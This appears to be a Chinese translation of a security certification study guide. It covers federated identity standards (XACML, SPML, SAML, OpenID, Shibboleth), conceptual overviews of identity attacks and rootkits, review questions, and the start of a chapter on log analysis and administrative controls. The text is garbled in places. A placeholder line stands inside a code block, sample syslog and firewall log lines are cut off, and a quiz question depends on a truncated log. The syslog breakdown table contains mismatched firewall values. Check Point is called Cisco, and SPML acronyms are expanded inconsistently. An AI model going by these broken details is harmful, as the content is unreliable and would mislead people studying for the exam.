在某些情况下，系统中的所有组件可能未启用 `SSO`（这意味着组件可以接受来自 `SSO` 服务器的原始格式的身份）。在这些情况下，必须修改专有方法以第三方应用程序能够理解的方式进行通信。如图 11-6 所示的示例中，用户请求访问关系型数据库管理系统（`RDBMS`）应用程序。`RDBMS` 服务器将用户重定向到 `SSO` 认证服务器。`SSO` 服务器为用户提供认证令牌（token），然后用该令牌对 `RDBMS` 服务器进行身份验证。`RDBMS` 服务器检查包含身份信息的令牌并授予访问权限。

### 图 11-6. 身份传播



假设应用程序服务接收到访问未启用 `SSO` 的外部第三方 `Web` 应用程序请求。应用程序服务将用户重定向到 `SSO` 服务器。现在当 `SSO` 服务器将认证身份信息传播到外部应用程序时，它不再使用 `SSO` 令牌，而是使用 `XML` 令牌。

另一个执行身份传播的协议示例是凭据安全支持提供程序（`CredSSP`）。它通常集成到微软支持远程桌面服务环境中以提供网络层认证。在为此目的实现时，支持的可能认证或加密类型包括 `Kerberos`、`TLS` 和 `NTLM`。

## 联合（Federations）

联合身份是一种可以跨企业和领域使用的可移植身份。在联合身份管理中，每个加入联合的组织都同意执行一套通用的策略和标准。这些策略和标准定义了如何配置和管理用户标识、认证和授权。使用联合 `ID` 提供不同的认证机制，其于这种方法比其他方法（如 `PKI` 或证明）的前期开发成本更低。

联合身份管理使用两种基本模型来连接联合内的组织：

| 关键项 | 主题 |
| :--- | :--- |
| **交叉认证模型（Cross-certification model）** | 在此模型中，每个组织都证明其他所有组织都是可信的。这种信任在组织审查彼此的标准时建立。每个组织都必须通过尽职调查验证并认证其他组织达到或超过了标准。交叉认证的一个缺点是可能出现问题的信任关系数量。 |
| **可信第三方（或桥接）模型（Trusted third-party model）** | 在此模型中，每个组织都订阅第三方的标准。第三方管理所有组织的验证、认证和尽职调查。对于需要与大量组织建立联合身份管理关系的组织来说，这通常是最好的模型。 |

联合的安全问题及其可能的解决方案包括以下内容：

| 关键项 | 主题 |
| :--- | :--- |
| **合作伙伴之间安全性不一致** | 联合伙伴需要为他们用于保护自身环境和信息的策略、机制和实践建立最低标准。 |
| **合作伙伴之间缺乏足够的法律协议** | 与任何其他业务伙伴关系一样，身份联合需要仔细草拟的法律协议。 |

使用了多种方法在合作伙伴之间安全地传输数据。接接章节中将介绍这些协议和服务。

## XACML

可扩展访问控制语言（`XACML`）是一种使用 `XML` 的访问控制策略标准语言。它的目标是创建一个基于属性的访问控制系统，将访问决策与应用程序或本地机器解耦。它根据以下标准对活动进行细粒度控制：

- 用户属性（例如，所有部门经理）
- 请求的协议（例如，`HTTPS`）
- 认证机制（例如，请求者必须通过证书认证）

`XACML` 使用了几个分布式组件，包括：


- **策略执行点（PEP）：** 该实体保护主体（用户或应用程序）尝试访问的资源。当它接收到主体的请求时，根据主体属性、请求的操作、资源和其他信息创建一个 `XACML` 请求。
- **策略决策点（PDP）：** 该实体检索所有相关的 `XACML` 策略并将请求与策略进行比较。它将答案（允许或拒绝访问）传回给 `PEP`。

`XACML` 的价值在于它能够跨应用程序类型运行。`XACML` 使用的流程图如图 11-7 所示。

### 图 11-7. XACML



当企业内部存在使用各自授权逻辑的异应用程序时，`XACML` 是一个很好的解决方案。通过利用 `XACML`，开发者可以从应用程序中移除授权逻辑，并根据业务需要集中管理或修改策略，而无需对应用程序本身进行任何额外更改。

## SPML

另一种在合作组织之间交换授权信息的开放标准是服务配置标记语言（`SPML`）。它是由结构化信息标准促进组织（`OASIS`）开发的基于 `XML` 的框架。

`SPML` 架构有三个组件：

- **请求机构（RA）：** 发起配置请求的实体
- **配置服务提供商（PSP）：** 响应 RA 的请求
- **配置服务目标 (PST)：** 执行配置操作的实体。

当两个具有基于 `Web`服务的组织之间建立信任关系时，其中一个组织充当 `RA`（注册机构），另一个充当 `PSP`（策略服务提供者）。该信任关系在简单对象访问协议（`SOAP`）标头部使用了安全断言标记语言（`SAML`）。`SOAP` 报文传输 `SPML` 请求/响应。

图 11-8 显示了这些 `SPML` 消息的使用方法示例。在图中，某公司与一家供应商达成了协议，允许供应商访问其配置系统。当供应商的人力资源部门添加用户时，会向供应商的配置系统生成一个 `SPML` 请求，以便新用户可以使用该系统。然后，供应商的配置系统会生成另一个 `SPML` 请求，在客户的配置系统中创建账户。

### 图 11-8. SPML



## SAML

安全断言标记语言 (`SAML`) 是一种基于 `XML` 和基于 `SOAP` 的服务构建的安全证明模型，它允许在系统之间交换身份验证和授权数据，并支持联邦身份管理。它试图解决的主要问题是使用 `Web` 浏览器的单点登录（`SSO`）。在使用 `SAML` 通过 `HTTP` 进行身份验证时，会向通过验证的用户发放断言令牌。

请记住，`SSO` 允许用户身份验证一次即可访问多组数据。互联网级别的 `SSO` 通常通过 `Cookie` 实现，将此概念扩展到互联网之外导致了许多不互通的私有方法。`SAML` 的目标是为此过程创建一个标准。

一个名为“自由联盟”（Liberty Alliance）的财团提议了 `SAML` 标准的扩展，称为“自由身份联邦框架”（`ID-FF`），它被提议作为一个标准化的跨域 `SSO` 框架。它识别了一个信任圈，在该圈内，每个参与域都受信任并关于每个用户记录以下内容：

- 用于识别用户的方法
- 使用的身份验证系统类型
- 与生成的身份验证凭据相关的任何策略

每个成员实体都可以自由检查这些信息并决定是否信任它们。自由联盟将 `ID-FF` 贡献给了 `OASIS`（一个非营利国际财团，根据 `XML` 和 `SGML` 等公共标准创建可操作的行业规范）。2005 年 3 月，`SAML v2.0` 被宣布为 `OASIS` 标准。`SAML v2.0` 代表了自由 `ID-FF` 和其他私有扩展的融合。

在未身份验证的 `SAMLv2` 事务中，浏览器向服务提供者（`SP`）请求资源。`SP` 向浏览器提供 `XHTML` 格式。浏览器请求身份提供者（`IdP`）验证用户，然后将 `XHTML` 传回 `SP` 进行访问。`SAML` 中的 `<nameID>` 元素可以作为 `X.509` 主体名称或通过 `Kerberos` 主体名称提供。

为了防止第三方识别出特定用户曾通过 `SSO` 操作访问过服务提供者，`SAML` 使用了临时标识符（这些标识符仅对单个登录会话有效，且每次再次身份验证时都不同，但在用户已验证身份期间保持不变）。

`SAML` 在以下场景中很好的解决方案：

- 当你需要提供 `SSO` 时（当至少有一个参与者或执行方是企业时）
- 当你需要为门户提供合作伙伴或客户应用程序的访问时
- 当你可以提供集中的身份源时

## OpenID

`OpenID` 是由非营利组织 `OpenID Foundation` 提出的开放标准和去中心化协议，允许用户通过某些协作站点进行身份验证。协作站点被称为依赖方（`RP`）。`OpenID` 允许用户登录多个站点而无需反复注册信息。用户选择一个 `OpenID` 身份提供者并使用该账户登录任何接受 `OpenID` 身份验证的网站。

虽然 `OpenID` 解决了与 `SAML` 相同的问题，但企业可能会发现使用 `OpenID` 有以下优势：

- 它比 `SAML` 简单。
- 它已被 `Google` 等公司广泛采用。

另一方面，你应该意识到与 `SAML` 相比 `OpenID` 有以下缺点：

- 使用 `OpenID` 时，身份提供者的自动发现必须每个用户单独配置。
- `SAML` 具有更好的性能。

`SAML` 可以从服务提供者或身份提供者发起 `SSO`，而 `OpenID` 只能从服务提供者发起。

2014 年 2 月，发布了第三代 `OpenID` 称为 `OpenID Connect`。它是一种构建在 `OAuth 2.0` 框架之上的身份验证层协议（`OAuth` 在本章前面已介绍）。它旨在支持原生和移动应用程序，并定义了签名和加密的方法。

## Shibboleth

`Shibboleth` 是一个开源项目，提供单点登录功能，并允许站点以保护隐私的方式，对受保护在线资源的个人访问做出明智的授权决策。

`Shibboleth` 允许属于联邦的站点之间使用通用凭据。它基于 `SAML`。该系统有两个组件：

- 身份提供者 (IP)：IP 提供用户信息。
- 服务提供者 (SP)：SP 在提供服务之前消费这些信息。

以下是 `SAML` 运行的示例：

1. 用户使用存储在受八位 `PIN` 码保护的智能卡上的 `PKI` 证书登录域 A。
2. 凭据被该域内的身份验证服务器缓存。
3. 身份提供者向服务提供者提供一个断言。

图 11-9 展示了服务提供者从身份提供者获取属性的方法。


## 手动与自动配置/撤销

联邦身份系统需要一套创建账户并授予相应访问权限的系统。这被称为配置过程。访问权限的移除和账户的删除被称为撤销过程。可以通过手动或自动化过程进行。配置一词也用于描述跨成员共享属性。考虑配置的这两种含义：

- 账户的配置/撤销：账户可以手动配置，也可以通过自动化过程配置。由每个成员执行的配置较慢，但安全性更高。自动化配置提供了更好的体验，但安全性较低。这一决策可能取决于成员之间的信任程度。
- 属性的配置/撤销：在做出访问决策时，联邦成员需要账户信息或用户属性。这些属性的交付被称为配置。有两种方法：推送和拉取配置。在拉取配置中（例如使用 `LDAP` 时），属性根据固定计划从成员的中央仓库拉取。在推送模式下，成员的中央目录将属性推送到。

## 自助密码重置

为了减少帮助台的工作量，许多组织采用了自助密码重置系统。虽然这对用户和员工来说很方便，但引入了安全问题。如何知道密码是由用户重置而不是其他人？有几种技术可以缓解这种漏洞：

- 提出用户事先选择并回答的挑战问题
- 使用二次身份验证，通过另一个通信通道（如短信或电子邮件）向用户交付二次密码或密钥，预计只有用户可以访问

## 漏洞

攻败身份和访问管理系统是许多攻击和漏洞的目标。以下章节将介绍主要的漏洞以及避免或缓解它们的方法。

## 冒充

冒充发生在用户通过获取与账户相关的登录凭据来假冒他人身份时。这通常通过社会工程学（窥视、帮助台恐吓等）或通过嗅听未加密的来暴露凭据。

传输中的凭据。防止身份伪装的最佳方法是用户教育，因为许多此类攻击都依赖于用户执行某些不安全活动。

## 中间人攻击

中间人攻击拦截两个实体之间的合法流量。攻击者随后可以控制信息流，并消除或更改双方之间的通信。实现中间人攻击的一种方法是通过投毒交换机上的 `ARP` 缓存。这种攻击及其缓解措施将在第 6 节“分析扫描输出并识别常见漏洞”中进行介绍。

## 会话劫持

当黑客能够识别分配给已验证用户的唯一会话 `ID` 时，就会发生会话劫持。`Web` 服务器生成这些 `ID` 的过程必须是真正的随机。会话劫持和防止它的措施将在第 6 章中介绍。

## 跨站脚本

跨站脚本 (`XSS`) 发生在攻击者发现网站漏洞并允许攻击者向 `Web` 应用程序注入恶意代码时。跨站脚本及其缓解措施将在第 6 章中介绍。

## 权限提升

权限提升是利用操作系统中的漏洞或弱点，允许用户获得其不拥有的权限的过程。这些权限可以用于删除文件、查看私有信息或安装不受欢迎的程序（如病毒）。权限提升有两种类型：

- 纵向权限提升：当低权限用户或应用程序访问为高权限用户或应用程序保留的函数或内容时就会发生。
- 水平权限提升：当普通用户访问为其他普通用户保留的函数或内容时就会发生。

以下措施有助于防止权限提升：

- 确保数据库及相关系统和应用程序以运行所需的最小权限运行。
- 验证赋予用户完成工作所需的最小访问权限。
- 如果可能，确保数据库不以 `root`、管理员或其他特权账户权限运行。

## Rootkit（根内核程序）

`Rootkit` 是一组工具，黑客在获取访问权限并将权限提升到管理员后可以在计算机上使用。它的名称源于 `root` 账户，这是基于 `Linux` 的操作系统中最强大的账户。`Rootkit` 工具可能包括一个供黑客访问的后门。这是最难删除的恶意软件类型，在许多情况下，只有重新格式化硬盘才能完全删除它。

以下是 `rootkit` 可能会采取的一些操作：

- 安装后门
- 删除安全日志中的所有条目（日志清理）
- 用受污染的版本替换默认工具（木马程序）
- 做出恶意的内核更改

不幸的是，防御 `rootkit` 的最佳方法是从根本不让它们进入，因为它们难以检测和删除。在许多情况下，删除 `rootkit` 会导致系统无法使用。你可以采取一些步骤来防止 `rootkit`，包括：

- 监控系统内存以查找进程被调用时的入口点，并跟踪任何可能被重定向到其他函数的导入库调用。
- 使用 `Windows Rootkit Revealer` 寻找隐藏在 `Windows API`、主文件表 (`MFT`) 和目录索引之外的信息。
- 考虑使用独立的 `rootkit` 检测工具产品，如 `RootkitRevealer` 和 `Blacklight`。
- 保持防火墙更新。
- 加固所有工作站。

## 考试准备任务

正如引言中“考试准备策略”部分提到的，你有几种准备考试的选择：此处的练习、第 15 章“最终准备”以及 `Pearson IT` 认证测试引擎中的模拟考试。

## 复习所有关键主题

复习本章中最重要的主题，这些主题在页外边缘用“关键主题”图标标记。表 11-3 列出了这些关键主题及其所在的页码。

### 表 11-3. 第 11 章的关键主题

| 关键主题元素 | 说明 | 页码 |
| --- | --- | --- |
| 节 | 基于上下文的认证 | |
| 列表 | 产生人员安全问题的实践 | |
| 列表 | 适当的凭据管理 | |
| 列表 | 确保责任归属 | |
| 节 | 终端威胁 | |
| 列表 | 恶意软件分类 | |
| 列表 | 服务器威胁 | |
| 列表 | 第三方 IAM 解决方案的安全问题 | |
| 列表 | 实现 Kerberos 的优势 | |
| 列表 | 实现 Kerberos 的缺点 | |
| 列表 | 802.1x 的组件 | |
| 表 11-2 | RADIUS 和 TACACS+ | |
| 列表 | RADIUS 的安全问题 | |
| 列表 | TACACS+ 的安全问题 | |
| 列表 | 联邦身份管理模型 | |
| 列表 | 联邦的安全问题 | |
| 列表 | XACML 组件 | |
| 列表 | SPML 架构 | |
| 列表 | 权限提升的类型 | |
| 列表 | 防止权限提升 | |
| 列表 | 防止 rootkit | |

## 定义术语

定义本章中的以下关键术语，并对照词汇表检查你的答案：

- 基于上下文的认证 (context-based authentication)
- 社会工程学 (social engineering)
- 钓鱼攻击 (phishing)
- 网络钓鱼 (pharming)
- 窥视 (shoulder surfing)
- 身份盗窃 (identity theft)
- 翻垃圾 (dumpster diving)
- 恶意软件 (malicious software)
- 蠕虫 (worm)
- 特洛马 (Trojan horse)
- 间谍软件 (spyware)
- 异常终端 (rogue endpoint)
- 异常访问点 (rogue access point)
- DoS/DDoS
- 缓冲区溢出 (buffer overflow)
- 磁辐射 (emanation)
- 后门/陷门 (backdoor/trapdoor)
- 基于角色的控制 (RBAC)
- 身份和访问管理 (IAM) 软件
- Kerberos
- 密钥分中心 (KDC)
- 认证服务器 (AS)
- 票据授予 (TGT)
- 票据服务 (TGS)
- 本地安全子系统服务 (LSASS)
- 开放授权 (OAuth)
- OpenSSL
- 目录服务 (Directory Services)
- LDAP
- 单点登录 (SSO)
- 多厂商环境安全系统 (SESAME)
- 域名系统 (DNS)
- 区域起始 (SOA)
- 邮件交换记录 (MX record)
- TACACS+
- RADIUS
- 802.1x
-  supplicant (supplicant)
- 认证器 (authenticator)
- 认证服务器 (802.1x)
- 身份传播 (identity propagation)
- 关系型数据库管理系统 (RDBMS) 应用
- 凭据支持提供 (CredSSP)
- 联邦身份 (federated identity)
- 交叉认证模型 (cross-certification model)
- 可信第三方/桥接模型 (trusted third-party or bridge model)
- 可扩展访问控制标记语言 (XACML)
- 策略执行点 (PEP)
- 策略决策点 (PDP)
- 供应服务标记语言 (SPML)
- 请求授权机构 (RA)
- 供应服务提供者 (PSP)
- 供应服务目标 (PST)
- 安全断言标记语言 (SAML)
- OpenID
- Shibboleth
- 身份提供者 (IP)
- 服务提供者 (SP)
- 权限提升 (privilege escalation)
- 纵向权限提升
- 水平权限提升
- rootkit

## 复习题

1. 你的一名用户在回复了一封似乎来自其银行的假邮件后遭受了身份盗窃。以下哪种攻击通常通过建立与合法网站非常相似的假网站来实现？
- a. 钓鱼攻击 (Phishing)
- b. 窥视 (Shoulder surfing)
- c. 侧信道攻击 (Side-channel attack)
- d. 频率分析 (Frequency analysis)

2. 安全团队正在研究限制敏感服务器辐射的方法。以下哪项研究限制辐射的方法并对使用的技术进行标准化？
- a. CFAA
- b. TEMPEST
- c. OWASP
- d. SPML

3. 你的 `Web` 开发人员正在探索在不使用凭据的情况下从一个到到另一个共享私有资源。以下哪项使用令牌允许客户端应用程序在需要访问吗？
- a. SPML
- b. OpenSSL
- c. OAuth
- d. SABSA

4. 防火墙管理员被指示通过防火墙允许 `LDAP`。`LDAP` 使用哪个端口？
- a. 205
- b. 159
- c. 443
- d. 389

5. 你正在查找 `DNS` 区域权威服务器的 `DNS` 记录。以下哪个记录包含有关 `DNS` 区域权威服务器的信息？
- a. SOA
- b. MX
- c. A
- d. CNAME

6. 你和团队正在探索实现 `802.1x`，并正在考虑认证服务器角色的候选人。关于 `TACACS+` 和 `RADIUS`，以下哪项是正确的？
- a. TACACS+ 使用 UDP，而 RADI 使用 TCP。
- b. TACACS+ 使用 TCP，而 RADI 使用 UDP。
- c. TACACS+ 和 RADIUS 都使用 UDP。
- d. TACACS+ 和 RADIUS 都使用 TCP。

7. 你正在你的组织与合作伙伴组织之间建立联邦安排。在何种联邦模型中，每个机构都证明其他所有机构都是可信的？
- a. 可信第三方
- b. 信任网
- c. 交叉认证
- d. 从属

8. 你的助手正在学习 `XACML` 的操作。哪种 `XACML` 组件保护主体（用户或应用程序）试图访问的资源？
- a. PDP
- b. RA
- c. PSP
- d. PEP

9. 你的组织正在研究 `SPML` 的实现，`SPML` 是一种用于在合作组织之间交换授权信息的开放标准。以下哪项不是 `SPML` 的组件？
- a. PPP
- b. RA
- c. PSP
- d. PST

10. 从参加完 `Cisco` 大会回来后，其中一个网络团队建议实现一种名为 `DHCP` 嗅探（`DHCP snooping`）的功能。使用 `DHCP` 嗅探可以缓解哪些攻击？
- a. `MAC` 表溢出
- b. `ARP` 毒化
- c. `VLAN` 跳跃
- d. 双重标记

# 第 12 章 安全架构与补偿控制的实现

本章涵盖了以下主题：

## 4.0 安全架构与工具集

### 4.3 根据给定场景，审查安全架构并提出实施补偿控制的建议。

- 安全数据分析：讨论了数据聚合与关联、趋势分析和历史分析。
- 手动审查：涵盖审查防火墙日志、`Syslogs`、认证日志和事件日志。
- 深度防御：讨论了将深度防御原理应用于人员、流程、技术和网络设计的情况。

安全架构描述了安全在系统中是如何实现的。正如一张建筑图纸描述了房屋或其他建筑的建造方式一样，因此，安全架构描述了组件之间的关系，以及将如何使用控制措施来确保组件之间信息传输的安全性。这是一个可以应用于软件、硬件和网络的概念。本章讨论了如何审查当前的安全架构，并提出应用适当的补偿控制以实现预期安全的建议。

## “我已经知道这些了吗？”测验

“我已经知道这些了吗？”测验可以让你评估自己是否应该阅读整个章节。表 12-1 列出了本章的主要标题以及涵盖这些标题内容的“我已经知道这些了吗？”测验题，以便你评估对这些特定领域的熟悉程度。测验的答案位于附录 A，“‘我已经知道这些了吗？’测验与复习题答案”。如果你错过的这些自测问题不超过一个，你可能想要直接跳到“备考任务”。

### 表 12-1. “我已经知道这些了吗？”基础主题章节与题目映射

| 基础主题 | 题目 |
| --- | --- |
| 安全数据分析 | 1 |
| 手动审查 | 2 |
| 深度防御 | 3–5 |

1. 你的组织正在探索一种 `SIEM` 系统，该系统可以收集大量数据，并根据信息中的某些共同变量以某种方式进行过滤和总结。这种过程称为什么？
- a. 聚合 (Aggregation)
- b. 关联 (Correlation)
- c. 组合 (Combination)
- d. 标准化 (Normalization)

2. 你的老板正在教你如何解释一条 `Syslog` 条目。在下面的 `Syslog` 条目中，目的 `IP` 地址和端口号是多少？

```
[content ends here as per original input]
```


`*May 1 23:02:27.143: %SEC-6-IPACCESSLOGP: list ACL-IPv4-E0/0-IN p`

- a. `192.168.1.3`，端口 `1026`
- b. `192.168.2.1`，端口 `1026`
- c. `192.168.1.3`，端口 `80`
- d. `192.168.2.1`，端口 `80`

3. 在你的组织中，一个人发起付款请求，另一个人授权同一笔付款。这说明了什么概念？

- a. 双重控制 (Dual control)
- b. 划分知识 (Split knowledge)
- c. 最小权限 (Least privilege)
- d. 知情需要 (Need to know)

4. 作为持续改进计划的一部分，组织的所有部门都在接受德明模型（Deming model）的培训。以下哪项是德明模型的第二步？

- a. 检查 (Check)
- b. 执行 (Do)
- c. 计划 (Plan)
- d. 处置 (Act)

5. 执行漏洞扫描后，团队需要生成一份报告。以下哪项为非技术决策者提供了最详细的信息？

- a. 技术报告
- b. 执行报告
- c. 安全报告
- d. 变更报告

## 基础主题

## 安全数据分析

数据分析是收集大量数据并使用某种软件进行分析和理解的过程。在某些情况下，你使用网络日志数据来增强安全性，这被称为安全分析。接下来的章节将如何使用聚合数据执行此过程。

## 数据聚合与关联

数据聚合是根据信息中的某些共同变量收集大量数据的过程。数据关联是定位信息中看似相关的变量的过程。例如，假设每次 `SYN` 数据包激增都意味着发生了 `DoS` 攻击。当你将这些过程应用于设备日志时，它可以帮助你识别攻击。此类系统的一个例子是安全信息和管理（`SIEM`）系统。这些系统收集日志、分析日志，并通过聚合和关联帮助你识别攻击和趋势。`SIEM` 系统将在第 14 章使用安全工具与技术中进行详细介绍。

## 趋势分析

在风险管理中，有时需要识别趋势。在这个过程中，利用历史数据，给定一组数学参数进行处理，以确定与基准的偏差。

如果你不知道建立基准，就无法识别与基准的偏差并跟踪趋势。

组织应该建立基准统计并定期与基准进行比较的程序。此外，组织必须识别何时应该建立新的基准。例如，如果你的组织实施了双服务器 `Web` 集群，其基准与升级为四台服务器或升级服务器内部硬件的集群基准大不相同。

图 12-1. 趋势分析

## 所有严重性趋势报告

``

## 历史分析

在某些情况下，你可能想从历史的角度来看待问题。在这种情况下，你可以以允许你执行此类操作的格式呈现数据，如图 12-2 所示。该图包含了关于设备内存使用情况的收集信息。你可以看到在一天中出现了两次内存使用的的峰值。如果你以原始格式查看这些数据，这些峰值可能不会那么明显。

图 12-2. 历史图

``

## 手动审查

虽然自动化系统确实可以简化日志审查，但这些工具并非所有的网络安全分析师都能使用，而且它们并不总是能捕捉到所有内容。在某些情况下，仍然进行手动日志审查。后续章节将介绍在与安全相关的典型日志中如何进行日志分析。

## 防火墙日志

最初检查防火墙日志可能有些无从从。但如果你理解基本的布局并知道某些缩写词的含义，你通常可以在防火墙日志中找到方向。例如，`Check Point` 日志（思科）遵循以下格式：

`时间 | 动作 | 防火墙 | 接口 | 产品 | 源 | 源端口`

注意：这些字段在允许或拒绝流量时使用。其他操作（例如对象的更改）会使用超出本文讨论范围的其它字段。

表 12-2 显示了每个字段的含义。

``

## 表 12-2. Check Point 防火墙字段

| 字段 | 含义 |
|---|---|
| `Time Action` | 管理站的本地时间接受（`Accept`）、拒绝（`deny`）或丢弃（`drop`）。`Accept` 表示接受或通过数据包，`deny` 表示 `TCP` 重置或 `ICMP` 端口不可达，`drop` 表示丢弃数据包而不向发送者发送错误 |
| `Firewall` | `IP` 地址或主机名 |
| `Interface` | 看到数据包的防火墙接口 |
| `Product` | 生成消息的系统中运行的防火墙软件 |
| `Source` | 数据包的源 `IP` 地址 |
| `Destination` | 数据包的目的 `IP` 地址 |
| `Service` | 数据包的目标端口或服务 |
| `Protocol` | 通常数据包的第 4 层协议（`TCP`、`UDP` 等） |
| `Translation` | 新的源或目的地址（这仅在发生 `NAT` 时显示。） |
| `Rule` | 来自 `GUI` 规则库的捕获此数据包并导致日志条目的规则编号（无论是否存在资源消息之外的其他字段，这都应该是最后一个字段） |

这是日志中的某行可能像这样：

`14:55:20 accept bd.pearson.com >eth1 product VPN-1 & Firewall-1 s`

这是一个源自内部 (`eth1`) 并带有 `NAT` 的允许 `HTTP` 流量的日志条目。表 12-3 描述了字段的含义。

## 表 12-3. 字段含义

| 字段 | 含义 |
| --- | --- |
| `Time` | `14:55:20` |
| `Action` | `accept` |
| `Firewall` | `bd.pearson.com` |
| `Interface` | `eth1` |
| `Product` | `VPN-1 & Firewall-1` |
| `Source` | `10.5.5.1 port 4523` |
| `Destination` | `xx.xxx.10.2` |
| `Service` | `http` |
| `Protocol` | `tcp` |
| `Translation` | `to xxx.xxx.146.12` |
| `Rule` | `rule 15` |

虽然其他日志可能略有不同，但如果你理解了这里显示的示例，你就应该能够快速理解它们。

## Syslogs

`Syslog` 消息都遵循相同的格式，因为它们在很大程度上已经标准化的。`Syslog` 数据包的大小限制为 `1024` 字节，并携带以下信息：

``

- `Facility`（设施）：消息来源。源可以是操作系统、进程或应用程序。
- `Severity`（严重性）：使用以下量表分级：
    - `0` `Emergency`（紧急）：系统不可用。
    - `1` `Alert`（警报）：必须立即采取行动。
    - `2` `Critical`（关键）：关键状态。
    - `3` `Error`（错误）：错误状态。
    - `4` `Warning`（警告）：警告状态。
    - `5` `Notice`（通知）：正常但重要的状态。
    - `6` `Informational`（信息）：信息消息。
    - `7` `Debug`（调试）：调试级消息。

注意：思科消息中的严重性与报告设备的健康有关，与安全无关！

- `Source`（源）：此条目来自日志。
- `Action`（动作）：对数据包采取的动作。
- `Source`（源）：源 `IP` 地址和端口号。
- `Destination`（目的）：目的 `IP` 地址和端口号。

以下是一个标准的 `Syslog` 消息，其部分在表 12-4 中解释：

`*May 1 23:02:27.143: %SEC-6-IPACCESSLOG: list ACL-IPv4-E0-IN`


## 表 12-4. Syslog 消息组成部分

| 时间 | *May 1 23:02:27.143 |
|--- | --- |
| 设施 | `%SEC-6-IPACCESSLOG:` |
| 严重性 | `6 Informational:` |
| 源 | `list ACL-IPv4-E0-IN` |
| 动作 | `permitted` |
| 源 | `192.168.1` |
| 目的 | `to xxx.xxx.146.12` |
| 规则 | `rule 15` |

(注：此处原文对应关系)

## 培训

安全意识培训、安全培训和安全教育这三个术语经常互换使用，但它们实际上是三个不同的东西。基本上，意识培训关注的是“是什么”，安全培训关注“如何做”，而意识培训则强化了通过实施安全措施来保护宝贵资源这一事实。安全培训教授人员为了以安全的方式执行工作所需的技能。安全意识培训和安全培训通常结合为安全意识培训，以提高对安全的认识，并确保用户对其行为负责。安全教育则更具独立性，针对需要安全专业知识的安全专业人员，使其能够作为内部专家来管理安全计划。

安全意识培训应根据受众群体进行开发。此外，培训人员必须理解企业文化以及它如何影响安全。他们在设计培训时，需要考虑的受众包括高层管理、中层管理、技术人员和其他员工。

对于高层管理，安全意识培训必须提供对潜在风险和威胁的清晰理解、安全问题对组织声誉和财务状况的影响，以及任何与组织安全计划相关的法律法规。中层管理培训应该讨论政策、标准、基线、指南和程序，特别是这些组件如何映射到各个部门。此外，中层管理必须理解他们在安全方面的责任。技术人员应接受有关配置和维护安全控制的内部培训，包括在攻击发生时如何识别攻击。此外，应鼓励技术人员追求行业认证和高等教育学位。其他员工需要理解他们在安全方面的责任，以便他们能以安全的方式执行日常任务。对于这些员工，提供真实世界的案例来强调适当的安全程序是有效的。

人员应签署一份文件，表明他们已完成培训并理解了所有主题。尽管初始培训应在人员入职时进行，但安全意识培训应被视为一个持续的过程，未来的培训应至少每年进行一次。

## 双重控制

双重控制的一个示例是：一个人发起付款请求，由另一个人授权该笔付款。任何人都不能执行这两项操作。

## 职责分离

职责分离的概念规定，敏感操作应分配给多个用户，以便任何一个用户都无权且无权限单独执行该操作。职责分离通过确保没有个人可以单独破坏系统，在防止欺诈方面具有价值。它被认为是一种预防性管理控制。基本有两种类型：知识分拆和第三方外包。

## 知识分拆

知识分拆的一个示例是两个银行员工，他们各自只知道保险箱密码的一部分。他们必须同时在场才能打开保险箱。

## 第三方/咨询顾问

第三方外包是许多组织在风险评估中未考虑在内的责任风险。任何外包协议都必须确保委托给另一机构的信息受到适当安全措施的保护，以满足所有的监管和法律要求。

合同和采购流程必须正式化。组织应建立管理所有合同和采购的程序，以确保它们包含了所有的监管和法律要求。应定期进行审查，以确保合同执行方遵守合同指南。

## 交叉培训/强制休假

